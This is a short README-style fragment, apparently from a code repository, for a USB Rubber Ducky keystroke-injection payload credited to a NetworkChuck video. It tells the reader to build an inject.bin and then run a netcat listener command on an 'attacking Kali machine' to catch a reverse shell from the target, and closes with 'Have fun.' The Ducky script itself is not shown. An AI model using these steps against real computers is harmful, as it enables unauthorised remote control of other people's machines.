 use the script for inject. bin 
then.
Open terminal on attacking Kali machine and enter

stty raw -echo; (stty size; cat) | nc -lvnp (port number)

This code is based on a video by Networkchuck. I just made the Ducky script.

Have fun.
Dark Storme


